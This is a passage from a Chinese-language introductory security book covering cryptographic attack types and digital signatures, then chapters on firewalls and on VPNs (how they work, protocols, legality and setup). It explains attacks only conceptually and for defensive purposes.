这种特定的攻击涉及通过影响原始信息的过程来改变信息。以下示例将让你明白主动攻击意味着什么。这包括：

- 使用非法手段或方法修改信息。
- 通过各种介质发起意外或非法的信息传输。
- 更改已认证的数据，如时间戳或发起人的名称。
- 拒绝合法用户访问信息。
- 非法删除信息或数据。



然而，借助密码学，你可以阻止这些攻击，因为有各种可用的技术和工具来实施密码系统。

## 攻击者的假设

在进一步深入之前，强调这些攻击者的某些假设非常重要。你会同意我的观点：在罪犯来到你家之前，他可能假设你没有报警系统、枪支或任何自卫手段。同样的情况也适用于这些攻击者，他们会不惜一切代价窃取你的信息。我不想让你置身事外，因此你需要了解密码系统的环境。此外，你必须理解攻击者的假设以及决定攻击者能力的环境。我们关于环境和攻击者能力有三个基本假设。

- **关于加密方案的信息**
  - 密码系统的设计基于以下密码算法：
  - **专有算法** – 在此情况下，只有系统的设计者和用户知道算法的细节。
  - **公开算法** – 在这种选项下，由于算法处于公共领域，因此每个人都知道算法的细节。

当涉及专有算法时，信息的安全是通过匿名性或隐蔽性来实现的。对于私有算法，由于开发过程由内部人员在没有对任何弱点进行广泛调查的情况下进行，因此它们可能较弱。此外，它们仅允许封闭群体之间进行通信。因为


基于这些前提，它们并不完全适用于现代通信，尤其是在存在大量未知和已知实体进行通信的区域。

因此，关于任何安全环境的第一个假设是，攻击者知道加密算法。

## 密文的可访问性

一旦明文被加密并转换为密文，它便会通过不安全的公共信道进行传输。因此，攻击者显然可以假设自己能够通过密码系统访问生成的密文。密文的可访问性是攻击者的第二个假设。

## 明文和密文的可访问性

尽管第三个假设不像前一个那样易于观察，但在某些情况下，攻击者确实可以访问明文及其对应的密文。这在诸如以下情况中是可能的：

-   攻击者说服发送者在从发送者那里获取密文之前，将其明文修改或转换为其选定的格式。
-   接收者可能会意外地向攻击者透露明文的内容。反过来，攻击者拥有等效的密文，这是通过开放信道获取的。
-   公共密码系统中的加密密钥在开放域中可用，任何潜在的攻击者都可能知道该密钥。使用该密钥，攻击者可以生成对应的明文和密文。

## 密码学攻击

在了解密码学的优缺点之前，你必须知道攻击者或黑客的主要意图是破解密码系统，以从密文中获取明文。攻击者为了获取明文，所需要做的只是找到用于该密码系统的那个特定解密密钥。

这促使攻击者应用其所掌握的一切知识，以找出在该密码系统中使用的那个特定秘密密钥。一旦他能够做到这一点，那么该系统就可以被认为已被入侵、破解或黑入。基于此，可以对系统实施各种攻击，我已通过一种简单的方式帮助你对它们进行了分类，以便了解你可能面临的具体攻击类型。

- **仅密文攻击**

在这种特定的攻击中，攻击者或黑客可以访问一组密文。然而，他无法访问与密文对应的明文。这种特定攻击仅当攻击者能够从给定的密文中获取对应的明文时才会成功。大多数现代系统都受到针对这种攻击形式的保护。

- **已知明文攻击**

在这种特定策略中，攻击者可以访问部分密文的明文。这种攻击的主要任务是让攻击者利用他收集到的信息来解密剩余的密文。“已知明文攻击”的一个常见例子是针对分组密码的线性密码分析。

## 字典攻击

这种类型的攻击有许多变体，但它们都涉及收集“字典”。攻击者使用一种简单的方法来构建一个由密文及其明文组成的字典，这可能是他们在很长一段时间内学到的。将来，一旦攻击者获得了对密文的访问权限，他就会查阅他创建的字典，以寻找任何对应的明文。

## 暴力破解攻击

在这种攻击中，攻击者竭尽所能通过使用每一个可能的密钥来确定秘密密钥。假设秘密密钥的长度为 8 位，那么可能的密钥数量将为 $2^8$，即相当于 256。已知密文和算法，攻击者尝试所有 256 个可能的密钥进行解密。然而，攻击者完成此攻击所花费的时间非常长，因为他必须尝试每一个单独的密钥。

## 中间人攻击

在这种攻击中，攻击者的主要目标大多是公钥密码系统，特别是在通信发生前必须交换密钥的区域。例如，主机 X 想要向主机 Y 传输消息，因此请求主机 Y 的公钥。然后，攻击者拦截了来自主机 X 的这个请求，并代替主机 Y 发送密钥。因此，主机 X 发送给主机 Y 的任何内容，攻击者都可以读取。为了使两个主机之间的通信过程得以维持，攻击者在读取信息后重新加密并将其重新发送给主机 Y。攻击者发送其个人的公钥作为来自主机 X 的密钥，以欺骗主机 Y，使其认为消息来自主机 X。

## 密码学数字签名

你曾经物理签署过文件吗？你知道你这一行为的重要性和含义吗？我敢肯定，如果涉及生死攸关的大事，你是能理解的。嗯，数字签名就像你的手写签名或打字消息，它是该消息或文件的具有约束力的签署标志。这是一种将实体/个人绑定到数字数据或信息的技术。接收者和任何第三方都可以独立验证这种绑定。

在物理世界中，当我们签署文件时，这表明该消息来自发送者，并且不应否认原始消息。在数字签名的情况下，签名者仅知道秘密密钥。

数字签名系统的模型基于公钥密码学，下面的图示展示了所涉及的全过程。



以下是对整个过程中所发生情况的解释：

-   每个实施数字签名的个人都有其自己的一对公钥或私钥。
-   通常，用于加密和解密过程的密钥不同于用于签名和验证过程的密钥。签名密钥是私钥，而验证密钥是公钥。
-   签名者在生成数据的哈希值之前，将数据提供给哈希函数。
-   然后将签名密钥和哈希值发送到签名算法，该算法根据给定的哈希值生成数字签名。此外，在发送给验证者之前，签名被附加到信息中。
-   然后，验证者将验证密钥和数字签名输入验证算法，该算法产生一些值作为输出。
-   此外，验证者对接收到的数据运行相同的哈希函数以产生哈希值。
-   为了确定数字签名有效，验证者随后将验证算法的输出与哈希值进行比较。

## 密码学数字签名的重要性

在我们拥有的所有密码学原语中，通过公钥密码学进行的数字签名是提供信息安全最有用的工具。除了其阻碍消息复制的能力外，它还进一步提供数据完整性和消息认证。让我们看看数字签名在信息安全中扮演的重要角色。

- **数据完整性** – 假设攻击者可以访问信息并更改任何内容，在接收者端，数字签名验证将会失败。这是因为验证算法的输出与修改后信息的哈希值将不匹配。因此，接收者可以安全地拒绝该消息，并引用数据完整性被破坏作为理由。

- **消息认证** – 一旦验证者通过发送者的公钥验证数字签名，验证者便确信拥有等效秘密私钥的发送者创建了该签名。因此，密钥在发送者和接收者之间，没有第三方参与。

- **不可否认性** – 基于除签名者外没有其他人员拥有签名密钥的假设，发送者可以在一组数据上生成唯一的签名。这样一来，如果未来出现任何问题，接收者将拥有当前数据以及数字签名的证据。

## 加密在信息安全中的优势、挑战与未来

总而言之，在本章的结尾，探索加密的优势及其挑战非常重要。目前，我们已通过数字形式的字节和比特相互连接。相关且关键的信息必须受到保护，以防受到罪犯侵害。这些信息必须以数字格式通过各种通信信道进行存储、处理和传输。考虑到信息在国家安全中发挥着重要作用，入侵者或攻击者正针对任何开放的通信信道和计算机系统，以中断关键信息的流动或从无辜用户那里窃取敏感信息。

然而，随着技术的进步，各种加密技术已成为一种保障，不仅确保这些网络罪犯的恶意目的被挫败，还确保只有授权用户才能访问这些信息。言归正传，让我们来看看加密在信息安全中的优势、局限性及其未来。


## 加密学的优势

加密学是信息安全的一项基本工具，这一点无人能否认。然而，它为信息安全提供了四项基本优势。这些优势包括：

- **保密性** – 通过加密学，我们可以保护各种信息免受未授权用户的访问。
- **认证性** – 通过数字签名和消息认证码（MAC）等各种加密技术，我们可以保护信息免受伪造和欺骗。
- **不可否认性** – 它提供不可否认服务，以防止因否认发送消息而产生的任何争议。
- **数据完整性** – 加密学的哈希函数有助于让用户确信信息的完整性。

## 加密学的缺点

尽管加密学在信息安全行业得到了广泛接受，但它确实存在一些缺点，这些缺点影响了信息的有效使用。这些问题包括：

- 即使是合法用户，在决策时期也可能难以访问经过认证、加密和数字签名的信息。入侵者可以攻击计算机或网络，使其无法正常运行。
- 加密学在金钱和时间上的高成本是信息安全面临的主要挑战。
- 它并不能保护那些由于系统、流程和协议设计缺陷而可能出现的威胁和漏洞。

## 加密学的未来

技术将持续进步，这带来了椭圆曲线加密技术；尽管它有其自身的优缺点，但尚未被完全理解。尽管如此，椭圆曲线加密技术允许用户在更短的时间内完成加密和解密过程，从而能够以同等的安全性传输大量数据。虽然椭圆曲线加密技术仍然较新，但在它被用于私人、商业和政府目的之前，需要对其进行测试和证明其安全性。

另一个新现象是量子计算。既然现代计算机的数据以位（bit）为单位存储，那么量子计算机则通过多个状态的量子叠加来存储数据。有迹象表明，现代加密技术将探索更困难的计算问题，或者或许会制定新的策略以实现当前的目标。

## 第8章：防火墙

## 简介

如果你询问任何网络安全专家，互联网是否是一个令人恐惧的地方，10个人中有9个会表示同意。黑客或网络犯罪分子有能力隐藏自己的身份，同时试图入侵人们的计算机，以访问他们的个人信息，并意图利用这些信息谋取私利。

使问题复杂化的是，假设你的操作系统或软件存在一个安全漏洞，并且没有迅速修复，这可能导致有人在你不知不觉中入侵你的计算机。在这种情况下你会怎么做？这意味着你必须停止使用互联网吗？有没有一种方法可以保护你免受这种未经授权的隐私侵犯？

令人惊讶的是，你可以迅速采取措施保护自己。通过防火墙，你可以在没有任何外部入侵的情况下保护自己。以前，防火墙是“抢手货”，只有大公司才会使用，因为它们是高价的硬件设备。在那个时期，没有很多人使用互联网。然而，如果他们使用了，他们使用的是拨号连接，速度不够快。因此，大多数黑客瞄准拥有大带宽的公司。

如今，几乎每个人都能以廉价且快速的网速连接到互联网。黑客已将他们的“游戏”扩展到大型公司和家庭用户，特别是那些安全防护不当的用户。不过，在进一步探讨之前，理解防火墙的含义及其独特功能是至关重要的。

## 什么是防火墙？

防火墙可以是一个软件应用程序或硬件设备，它充当互联网和你的计算机之间的保镖。它屏蔽所有你未请求的“互联网流量”访问你的计算机。这是一个简单的类比，但这就是防火墙所做的。简单地说，假设你浏览到xyz网站，防火墙会允许来自“xyz”网站的流量访问你的计算机。但是，如果你没有请求访问xyz网站，而该网站现在向你的系统发送流量，防火墙将不允许它访问你的计算机。尽管如此，这些表现出的特性是可以更改的。

当我说防火墙可以是软件应用程序或硬件设备时，请不要混淆；区别就在这里。硬件防火墙设备位于你的互联网连接中，而另一部分则连接到你的计算机。大多数这类防火墙内置集线器，使你能够连接多台计算机以共享单一的互联网连接。

防火墙使用一种称为网络地址转换（NAT）的技术，为所有连接至它的计算机提供所需的保护。受保护的计算机通过私有IP地址执行此保护，这些地址最初无法通过互联网访问。此外，防火墙将这些内部IP地址转换为单一的公共IP地址，然后分配给你的防火墙。通过这种方式，你的硬件防火墙可以接受每个传入请求，并将其转发到你内部计算机的请求。

另一方面，个人防火墙是一种安装在你要保护的计算机上的软件。该软件的作用是过滤传入和传出流量，并仅允许你个人请求的数据通过。与硬件防火墙不同，个人防火墙具有更多功能，尽管它们缺乏让你与单个网络上的多台计算机共享互联网连接的好处。

也许你在想，哪一种最适合你的保护？好吧，这个决定将取决于多种因素。然而，如果你只想保护一台计算机，最佳选择将是个人防火墙；如果你想保护多台计算机，最好选择硬件防火墙。此外，在保护多台计算机时，硬件防火墙更具成本效益。你也可以结合这两种设备来保护你的计算机。你应该考虑这一点，因为为了保障你的信息，特别是当你寻求额外安全级别时，这可能是一个好主意。

## 防火墙的重要特性

在选择特定的防火墙使用时，务必特别关注它们的特性。这可能会对你的计算机如何抵御外部访问产生重大影响。尽管这些特性因人而异，但我整理了在考虑购买防火墙时应检查的最重要特性。尽管如此，在安全性方面，你的关注点应放在应用程序保护、隐形模式、通知、传入和传出过滤等功能上。让我们逐一查看这些特性，以让你了解它们的重要性。

- **传入和传出过滤**

  此特性是独特的，因为它有助于确定允许或禁止的信息。防火墙的主要功能是根据制定好的标准或规则允许和丢弃信息。它通过执行此任务来处理你的所有安全问题。大多数人认为传入过滤是防火墙的主要功能，但他们错了。传入过滤是针对流向你的计算机的传入数据进行过滤的过程。

- **隐形模式**

  重要的是，你的防火墙不仅要阻止请求到达计算机，还必须表现得好像它不存在于互联网上。当你的计算机处于隐形模式时


即使已经连接到互联网，也无法被检测到。如今，黑客拥有使用特殊数据探测计算机的能力，以检测某台特定计算机是否在线。然而，如果你处于隐身模式，防火墙不会将这些信息返回给黑客，从而让黑客看起来像你是离线状态。正因如此，黑客会停止针对你的计算机，因为对他们来说你处于离线状态。

- **隐私保护**

  保护你的隐私至关重要，你不会愿意为了任何事情而冒风险。如今的大多数防火墙都具有阻止广告软件、劫持程序和间谍软件访问你的计算机的能力。隐私保护功能使你能够保护计算机免受任何感染，特别是那些泄露用户私人信息的软件。

- **应用程序完整性**

  此功能使防火墙能够监控计算机上的文件，以检查是否存在修改问题或这些文件是如何启动的。一旦防火墙检测到任何更改，它会通知用户并拒绝应用程序运行或向互联网传输数据。通常，这些文件修改可能看起来像是一个升级；然而，恶意程序可能触发了这种修改。

- **入侵检测**

  犯罪分子、入侵者或黑客使用各种手段来劫持你的计算机安全。然而，入侵检测功能会扫描所有传入数据，以寻找已知方法的特征。此外，当它识别出任何此类攻击时，会通知你。有趣的是，通过防火墙，你可以知道黑客或入侵者想要攻击你的计算机的方法。

## 通知

通过此功能，你可以了解防火墙上正在发生的特定活动，因为它有多种方式通知你计算机可能遭受的任何渗透或入侵。

## 流行防火墙

由于网络空间中广泛的安全威胁，市场上充斥着各种各样的防火墙。这些不同的防火墙各有其优缺点。然而，以下是一些你可以尝试的个人防火墙：

- Zone Alarm Free
- Outpost Firewall
- Emsisoft Online Armor Free

商业个人防火墙：

- Zone Alarm pro/plus
- Outpost Firewall Pro
- McAfee Personal Firewalls

硬件路由器或防火墙供应商：

- NETGEAR
- Linksys
- D-Link
- Belkin

## 结论

获取防火墙来保护计算机的重要性不容忽视。有了防火墙，你可以保护自己免受黑客和病毒的侵害。此外，当你整合适当的规则和监督流程时，你可以放心地使用计算机，无需担心来自任何人的外部威胁。你永远不会在犯罪多发地区将家锁开着。你总是锁门，以防止入侵者和窃贼窃取你的贵重物品。当你可以透过防火墙保护你的文件和重要信息时，为什么要让你的计算机暴露在黑客面前呢？

## 第9章：虚拟私人网络

## 简介

随着在线隐私的持续冲击和不断警示的安全威胁，许多人都面临着这些问题，转向使用VPN服务的人数正在增加。对于可能第一次听到VPN的人来说，使用它可能看起来很复杂，但事实并非如此，因为在这一章中，我将消除对这些概念的迷雾，解释你可以使用它们的用途，为什么你应该考虑使用它们，以及如何有效地利用它们为你带来优势。此外，如果你决定为自己选择一个VPN，我会提出一些建议来帮助你。

VPN，也称为虚拟私人网络，是充分利用你的在线自由和隐私的决定性工具，尤其当你大部分时间都花在网上时。拥有一个好的VPN是不可或缺的，因为它允许你：

- 保护你的设备免受攻击、黑客以及公共无线网络威胁的增加
- 通过加密你的互联网流量来恢复你的隐私，这使得第三方（如监控机构、网络管理员和互联网服务提供商）难以读取你的信息
- 通过交换你的位置和IP地址来使用VPN服务器，从而在世界任何地方露面
- 无论你的位置如何，解除任何受限内容的封锁

除了隐私和安全问题之外，推动VPN使用的两个因素是被封禁的网站和内容限制。从中国到美国，再到北美洲，依赖使用VPN来获得私密、安全、无限制在线体验的人数不断增加。当你拥有保护自己所需的一切时，为什么要允许你的重要信息被盗或被泄露？你的信息安全掌握在你手中。

## 什么是VPN？

VPN是虚拟私人网络的缩写，是一种允许或使你能够私密且安全地访问互联网的服务，而不会对你的信息造成任何损害。此外，它允许你获取受限内容，这些内容在使用普通互联网连接时你可能无法访问。通过VPN，你通过服务器路由你的连接，这允许你隐藏你的在线活动。

在我们深入探讨VPN之前，我想让你理解一些基本术语。借助这些术语，你可以轻松理解我在本章后半部分将要解释的某些内容。

- **VPN客户端** – 这代表将你的设备/计算机连接到VPN服务的软件。有时，“VPN应用”和“VPN客户端”互换使用。
- **VPN服务器** – 这代表VPN网络中的一个端点，你的互联网流量的连接和加密在此处发生。
- **VPN协议** – 这代表设备用来成功创建与VPN服务器的安全连接的方法。
- **VPN服务** – 这代表一个实体，它提供使用其VPN网络的能力。除了这项服务外，他们还向客户提供VPN软件。要访问这些服务，客户必须订阅他们的套餐。VPN提供商和VPN服务可以互换使用。

## VPN是如何工作的？

在你获得了坚实的基础后，现在是深入了解VPN工作原理的时候了。仅仅订阅VPN服务并忽视其工作原理是不够的。一旦你了解它是如何工作的，你就可以避免任何你有意或无意地向攻击者或网络犯罪分子开放的漏洞。

VPN通过一种简单的操作来提供你需要的服务，即加密你的计算机系统与服务器之间的连接。你可以将这个加密连接视为一个受保护的隧道，它允许你访问网上的一切，同时出现在你连接的VPN服务器的位置。例如，你可能在美国，但看起来像是连接在中国在线。VPN服务器保护你的位置，并使用其服务器位置作为你的位置。这为你提供了额外的安全性、高水平的在线匿名性，以及无论你的位置如何都能无限制地访问互联网。



从上面的图表中，你可以看到VPN是如何工作的。对于黑客或政府机构来说，监控和限制你的活动是困难的。隧道充当你的VPN，保护你的在线存在和隐私。这听起来有趣吗？好吧，让我们看看另一个未使用VPN的情景。


关于这张第二张图片，你能说什么？它看起来熟悉吗？当然，这是不使用VPN的人所经历的情况。互联网由负责存储网站并允许任何想要查看它们的人访问的服务器组成。这些服务器彼此通信并共享重要信息，包括你的银行详情、安全号码等。在线共享和浏览是很棒的，但这对于你的隐私来说不是好消息。

当你上网时，就像你登上了一架商业航班。安保人员、行李处理人员、空乘人员和票务代理都需要你的数据才能将你路由到你的城市。互联网上也会发生类似的事情，你的信息会经过各种服务器。如果你只是浏览互联网以寻找乐趣，那么你不应该担心任何人看到你的信息。然而，如果这与商务邮件、在线银行或任何敏感事项有关，情况就大不相同了。如果没有使用VPN，你的所有在线活动都可以追溯到你的物理位置。此外，你的设备暴露了你的IP地址。你用来连接互联网的每台计算机系统或设备都有其独特的地址。

然而，通过VPN，你可以隐藏你的主要位置，并使用VPN服务器的位置来保护自己免受正在增多的网络犯罪分子的攻击。大多数VPN服务提供商维护他们的服务器


遍布全球。这为用户在全球范围内提供了无限制的连接和不受限的内容访问。在实现这些无限可能性之前，你需要购买或订阅这些服务。一旦你购买并将软件下载到电脑或设备上，就可以立即连接到任何地方。

## 为什么要使用 VPN 服务？

我知道在某个时刻你的脑海中会浮现这个问题。为什么如今世界各地使用 VPN 服务的人数比以往任何时候都多？嗯，这取决于具体情况；然而，确实存在一些必须使用 VPN 服务的情形。这些情形并不仅限于我在此提及的那些。

- 在不透露位置或验证 IP 地址的情况下访问互联网。你可以将此归因于在线匿名性
- 获取对因位置受限而受到限制的人们或国家/地区特定网站和内容的无限制访问
- 通过加密互联网连接提供额外层级的安全性
- 轻松访问区域受限资源以绕过审查
- 防止网络管理员、第三方、政府机构以及你的互联网服务提供商监视在线活动
- 保护并阻碍敏感私人数据，包括照片、信用卡、银行密码以及其他相关信息
- 在没有受到攻击或泄露风险的情况下访问互联网
- 防范网络犯罪分子或黑客，特别是在使用机场、酒店和咖啡馆的公共 Wi-Fi 连接时
- 进行媒体流媒体传输、P2P 下载和 torrent 活动

你仍然怀疑为你的互联网连接使用 VPN 吗？迄今为止，你已经了解了什么是 VPN，它是如何工作的，以及为什么使用它们。阐明在使用时它们是否安全对于消除疑虑至关重要。

## VPN 有多安全

如今，VPN 的安全性在 IT 专业人士之间引发了激烈的争论。然而，需要注意的是，没有两种服务在安全性或提供的功能方面是完全相同的。鉴于此，如果你能自信地说某款 VPN 是安全的，那么它对于你的互联网和信息安全就是可用的，前提是一款高质量的 VPN。



尽管如此，这并不意味着没有缺陷。如今，市场上有超过 350 款 VPN，如果你考虑到 Google Play 和 Apple 商店中的免费 VPN 应用，这个数字还会继续增加。遗憾的是，这些提供免费服务的 VPN 存在 bug、缺陷，并对你的个人信息构成巨大的安全和隐私威胁。然而，为了保护你的数据并防止任何信息或设备泄漏，选择一款高质量的 VPN 至关重要。

如果可能，你应该避免使用任何免费 VPN 应用或服务，因为最近的研究发现，约 84% 的用户数据泄漏源于免费 Android VPN 应用。尽管大多数人已经认识到应该避免使用这些应用，但仍有数以百万计的人出于各种目的在使用它们。如果你认真对待网络安全，就有各种理由建议你避免使用免费 VPN。包括：

- 你赋予第三方访问你敏感数据的权限
- 流量泄漏，例如 DNS 和 IP 地址泄漏
- 带宽被盗
- 对你活动的隐藏跟踪
- 嵌入式恶意软件，这在免费 VPN 中很常见
- 欺诈行为，包括金融欺诈和身份盗用
- 浏览器劫持

重要的是，警惕各种 VPN 骗局，从虚假评论、虚假功能到终身 VPN 订阅。作为一条基本原则，当你订阅 VPN 服务时，应该得到你所付费的服务内容。

## VPN 服务合法吗？

这个问题的答案取决于你居住在世界哪个地区。嗯，在西方世界，只要用于安全和在线隐私目的，使用 VPN 服务是合法的。事实上，大多数企业每天都在使用 VPN，我不认为这种情况会很快改变。


然而，有一些国家，如沙特阿拉伯、阿拉伯联合酋长国、伊朗、伊拉克、朝鲜、阿曼、俄罗斯、白俄罗斯和土库曼斯坦，不允许使用 VPN 服务。这些国家对使用此类服务持反对态度，因为它们赋予用户在线获取一切可能内容的权力。

例如，在中国，政府加强了“Great Firewall”（中国防火墙）的建设，旨在封锁网站和 VPN。尽管如此，一些互联网用户仍使用某些 VPN 来绕过这些问题。另一个禁止使用 VPN 的措施失败的国家是俄罗斯，因为 VPN 流量是隐藏的，看起来像正常的 HTTPS 流量。

重要的是，世界各地的企业和私人个人经常使用 VPN 服务进行网络安全管理。因此，鉴于 VPN 对私人和企业安全的重要性，不太可能对其使用进行全面禁止。

如果 VPN 服务有助于保护或隐藏个人的 IP 地址和位置这一事实显而易见，那么人们难道不能将其用于欺诈或不良活动吗？当然可以！然而，VPN 就像钢铁一样，我们可以将其用于运输、建筑和桥梁等各种用途。此外，其用途并不限于这些，正如我们看到的，钢铁被用于制造坦克、枪支和炸弹，这些会伤害人类。将负面影响与其积极影响相对比，我们要说禁止钢铁会产生更好的结果吗？显然不是，因为这样做将是愚蠢和疯狂的。这就好比因为轻微的伤害而砍断你的左腿。

VPN 和加密技术也是同样的道理。涉及敏感数据使用且必须加密并用于日常目的的企业、银行和不同网站。无论人们如何滥用这些加密和 VPN 工具，它们对于我们的在线安全和隐私都是必需的。

## 设置虚拟专用网络

你的在线安全和隐私是我的优先事项，这就是为什么在这一部分，我想向你介绍设置 VPN 的最简单方法。然而，设置的具体说明可能会因你使用的设备或系统而异。另一个因素是你可能正在使用的特定 VPN 服务。尽管如此，本书中的安装步骤是大多数 VPN 提供商针对大多数设备和操作系统推荐的方法。

以下是如何有效设置你的 VPN 的概述。

- 选择一个良好且可靠的 VPN 提供商
- 订阅其套餐，然后将软件下载到你的设备或操作系统上
- 使用订阅后提供的凭据登录 VPN
- 连接到你选择的服务器，然后你就可以享受你的在线隐私了

以下平台的用户 iOS、Android、Mac OS 和 Windows 可以选择使用其操作系统的内置 VPN 功能。这些系统不使用 OpenVPN，而是使用 IPSec/L2TP 或 IPSec/IKEv2 协议。虽然这可能成本较低；然而，为了享受所有功能并在在线时避免任何数据泄漏，建议使用 VPN 服务来保护你的在线安全和隐私。

## VPN 在在线隐私中的作用

毫无疑问，VPN 既提供安全性又提供在线隐私。如前所述，如果设备没有使用任何 VPN，你的互联网服务提供商或网络犯罪分子可以轻松地监视和记录你的在线活动。这可能包括你与朋友和家人的社交媒体互动、你发布的评论、你访问的网站、你的偏好等。如今，我们有各种隐私违规行为，其中政府或机构要求互联网服务提供商提供用户浏览和数据活动的日志。因此，使用 VPN 后，你的所有互联网服务提供商看到的只是你通过设备连接到 VPN 服务器并在线。然而，你的数据是安全且经过加密的，第三方没有能力读取你的信息。


此外，VPN 对于你的网络安全至关重要，因为当你连接公共 Wi-Fi 时，你会将自己暴露给黑客，使其能够窃取你的信用卡信息、身份信息、密码和银行账户等。如果没有 VPN，你就更容易成为攻击的目标。如果你想预防并保护你的数据免受黑客和第三方的侵害，请务必考虑使用 VPN 服务来加密你的数据。

## 关于匿名性问题

另一个需要澄清的问题是，虽然你使用 VPN 来保护在线安全和隐私，但这并不意味着你拥有 100% 的匿名性。实际上，考虑到包括美国国家安全局（NSA）在内的众多监控机构的存在，实现 100% 的在线匿名性是很困难的。

这不应阻止你使用 VPN，因为有一些措施可以帮助你提高在线匿名性。这些措施超越了仅仅使用最佳 VPN 服务的范畴。首先，你可以：

- 使用安全浏览器，以保护你免受浏览器指纹识别的威胁
- 使用可靠的广告拦截器，因为某些广告可能会伪装起来追踪你的在线活动、对你的用户画像进行分析，并在你不知情的情况下收集相关的个人信息

另一个需要考虑的问题是 VPN 日志。密切关注你的日志政策和记录非常重要，因为这关系到你的在线隐私。使用 VPN 时，你必须了解这些日志有多种类型，其中包括：

- **连接日志** – 包括时间、日期、IP 地址和连接数据。通常，连接数据对于改进 VPN 网络以及解决可能出现用户问题很有用。需要注意的是，阅读这些数据是如何被保护的以及它们多久会被删除一次。
- **浏览日志** – 包括你在线执行的几乎每种活动，例如元数据、IP 地址、时间、浏览历史等。如果你使用的是免费 VPN，那么你不太可能要求不保留这些日志的使用记录。
- **无日志** – 大多数 VPN 声称它们提供“无日志”功能。然而，根据我的研究，只有少数 VPN 服务提供商真正对客户提供此功能。

### VPN 的性能和速度

当你使用 VPN 时会发生许多活动。你的计算机或设备正在执行数据报文的加密和解密，然后这些数据报文通过远程 VPN 服务器进行路由。这些过程需要消耗资源和时间，并会影响你的整体互联网速度。

因此，为了在使用 VPN 时获得最佳的互联网速度，至关重要的是连接最适合你需求的最近的 VPN 服务器。例如，如果你居住在加拿大并想访问对美国人开放但对加拿大人屏蔽的内容，最佳选择是选择纽约的服务器，而不是加利福尼亚的服务器。

检测高质量 VPN 服务提供商的一个好方法是通过你的互联网速度，因为该服务不应影响你的互联网速度。相反，如果你使用低质量的 VPN 服务，你的互联网速度会显著下降。导致这种情况的原因可能是服务器被不同用户过度加载。

尽管如此，你也有责任帮助提高你的 VPN 速度。确保你光顾一家性能可靠的 VPN 提供商。此外，你可以连接到附近的、负载较低的服务器。如果上述解决方案不起作用，那么你应该考虑更改你的 VPN 协议。此外，检查你的设备、网络和互联网服务提供商，因为这会影响你的互联网速度。

### VPN 协议和加密

在使用 VPN 时，这些服务提供商提供多种 VPN 协议。然而，了解 VPN 协议的含义很重要。用非专业术语来说，这是一组用于在 VPN 服务器和你的设备之间建立安全和加密连接以传输数据的指令序列。当今世界常用的 VPN 协议如下：

- **OpenVPN**

该协议是用于不同类型设备的最安全和最受欢迎的协议之一。它是一个开源项目，专为多种认证方法开发。如果你想要一个可用于各种设备的多功能 VPN 协议，那么 OpenVPN 是一个完美的选择。除此之外，它提供强大的加密和卓越的性能。

- **IKEv2/IPSec**

IKEv2 是互联网密钥交换版本 2 与互联网协议安全的缩写，与前者一样，它是一个安全且快速的 VPN 协议。它在大多数操作系统（包括 iOS、Mac OS 和 Windows）中自动预配置。它在重新建立丢失连接方面表现完美。该协议的缺点在于它不是开源项目，因为它是由微软和思科开发的。它是使用移动设备的人的完美选择。

- **PPTP**

这是一种较旧的 VPN 协议，内置于大多数操作系统中。又称点对点隧道协议，它具有不同的安全漏洞，导致其不被认为适合用于 VPN 活动。

- **L2TP/IPSec**

对于任何人来说，这也是一个相当不错的协议选择。与 PPTP 不同，第二层隧道协议与互联网协议安全具有更高的安全性。此外，由于数据报文的二次封装，速度并不算太快。它内置于大多数操作系统中，并广泛用于移动设备。

### WireGuard

该协议在业内属于新事物，旨在与现有的旧 VPN 协议相比，提供更高的性能和改进的安全。由于它仍在积极开发中，因此尚未经过审计。然而，一些 VPN 提供商仅支持将其用于测试目的。

## 在 iOS 和 Android 设备上使用 VPN

到目前为止，你已经知道 VPN 可以用于 iOS 和 Android 设备。然而，我想探讨在这类设备上使用 VPN 的三种不同方式。

- **通过自定义 VPN 应用** – VPN 提供商为 iOS 和 Android 设备的用户提供自定义 VPN 应用，这些应用通常稳定、快速并具有不同的独特功能。
- **通过第三方 VPN 应用** – 你可以使用各种流行的免费第三方 VPN 应用（如 Android 的 OpenVPN）来保护你的在线隐私。
- **内置 VPN 功能** – 一些设备具有内置的 VPN 功能。例如，iOS 设备支持 IPSec/IKEv2，而 Android 设备支持 IPSec/L2TP 功能。

虽然 VPN 在 Android 和 iOS 设备上有了显著改进，但它们无法与计算机系统相提并论。原因在于，与典型的 VPN 应用程序不同，普通的 VPN 更加复杂，需要连接加密、解密和外部服务器。这与移动设备的情况不同，在移动设备中连接可能不稳定（会随时间推移断开和重连）。

## 在路由器上使用 VPN

你可以将 VPN 连接到路由器，但必须确保该路由器支持 VPN 服务。使用支持 VPN 服务的良好路由器，你可以获得以下好处：

- 保护你的家庭网络免受网络犯罪分子、监视、黑客攻击或任何潜在攻击
- 轻松保护你自己免受互联网服务提供商和任何监视的影响
- 你的移动设备无需安装软件即可从此服务中受益

